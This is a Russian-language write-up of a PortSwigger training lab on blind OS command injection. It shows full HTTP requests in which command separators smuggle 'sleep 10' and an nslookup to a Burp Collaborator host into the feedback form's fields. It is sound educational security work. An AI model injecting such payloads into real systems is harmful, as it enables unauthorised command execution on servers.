 ```yaml
---
title: "Blind OS command injection with out-of-band interaction"
date: 2025-06-26
tags: [os_command_injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band"
classes: wide
---
```


В лабе содержится уязвимость **Blind OS command injection**. Для решения необходимо отправить `DNS` запрос с сервера.

```
https://0a1700670377fbe881bf11c0001400cb.web-security-academy.net/
```

## Solution

Пойду гулять по сайту. Интерес вызвала форма отправки обратной связи. Соберу запрос. А вот и он:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=LdgQEOLRcZNpwpgaJyQScEUX7svKo61p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=eoMBcu5ppx8X1LdESVQjPbY8awXhslM2&name=name&email=email%40mail.com&subject=subject&message=message
```

Отправлю в `Repeater`, чтобы потестить поля. Отправлю `sleep 10` через поля формы:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=LdgQEOLRcZNpwpgaJyQScEUX7svKo61p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=eoMBcu5ppx8X1LdESVQjPbY8awXhslM2&name=sleep 10&email=email%40mail.com&subject=subject&message=message
```

Это не сработало, попробую добавить разделители `||`:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=LdgQEOLRcZNpwpgaJyQScEUX7svKo61p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a170040039c75fb804a3f4b00eb005f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=eoMBcu5ppx8X1LdESVQjPbY8awXhslM2&name=||sleep 10||&email=email%40mail.com&subject=subject&message=message
```

Все еще нет( Возможно сервер не дожидается обработки запроса, а сразу возвращает ответ. Или же тут нет уязвимости( Попробую использовать `OAST`. То есть я попробую выполнить команду, которая отправит `DNS` запрос на контролируемый мной сервер. Таким образом, если я получу запрос, то уязвимость есть. Если же не получу, то ее нет. Либо же не подходящий способ определения. Ну чтож, буду использовать следующую команду для инъекции:

```bash
nslookup 525tm2a733ae0a44gqp5s89be2kt8jw8.oastify.com
```

Повторю процесс для каждого из полей. Уязвимым оказалось поле `email`:

```http
POST /feedback/submit HTTP/2
Host: 0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Cookie: session=ZP3SAEE4LBuL0ZwxFKpvv5HOiWXVx5Go
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1700670377fbe881bf11c0001400cb.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: https://0a1700670377fbe881bf11c0001400cb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=oRntvNOT2etKminxk9L3GoaRwInZLRJk&name=name&email=a||nslookup 525tm2a733ae0a44gqp5s89be2kt8jw8.oastify.com||&subject=subject&message=message
```

Получил запросы в `Burp Collaborator`:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_interaction/1.png){: height="200" .align-center}

Лаба решена)

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_interaction/2.png){: height="200" .align-center}